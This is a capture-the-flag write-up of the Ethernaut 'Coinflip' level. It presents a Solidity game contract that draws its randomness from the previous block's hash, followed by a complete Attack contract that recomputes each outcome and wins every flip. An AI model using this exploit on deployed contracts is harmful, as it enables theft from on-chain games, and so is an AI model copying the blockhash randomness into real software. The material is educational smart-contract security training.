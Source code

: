Coinflip

Take a gander at this contract

You'll notice that it attempts to make a game where the user has a 50% chance of guessing the right answer.

Our goal is to get 10 consecutive wins.

Can you spot anything sketchy about this contract? 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```


If you take a look at the flip function, you'll notice that the answer is computed using a bad source of randomness. Anyone can see the value of FACTOR, and anyone can computer the value of blockValue.

We can write a contract that can compute what the answer would be, and then submit it to the coinflip contract to get wins every time. 

Here's a contract that can be used to win this coinflip game.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.1/contracts/math/SafeMath.sol";

interface ICoinFlip {
    function flip(bool _guess) external;
    function consecutiveWins() view external returns (uint256);
}

contract Attack {
    using SafeMath for uint256;
	
    address coinFlipAddress = 0x53eeD803C0ec5b969dc401CE8abfa9D67f341058;

    ICoinFlip coinFlipContract = ICoinFlip(coinFlipAddress);

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function predictFuture() public returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coinFlipContract.flip(side);
    }

    function getConsecutiveWins() public view returns (uint256) {
        return coinFlipContract.consecutiveWins();
    }
}
```

In the function titles predictFuture, we get the value of the coinflip the same way the original contract does it. 


Deploy this attack contract, call predictFuture 10x and you'll have solved this level

![[Pasted image 20220415141751.png]]